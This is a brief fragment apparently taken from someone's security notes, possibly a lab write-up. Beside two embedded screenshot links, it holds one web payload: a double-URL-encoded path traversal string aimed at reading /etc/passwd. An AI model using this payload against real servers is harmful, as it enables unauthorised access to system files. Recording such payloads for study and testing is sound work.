 `%252e%252e%252f%252e%252e%252f%252e%252e%252fetc/passwd`

![Pasted image 20240923133129.png](../../../../IMAGES/Pasted%20image%2020240923133129.png)
![Pasted image 20240923133206.png](../../../../IMAGES/Pasted%20image%2020240923133206.png)
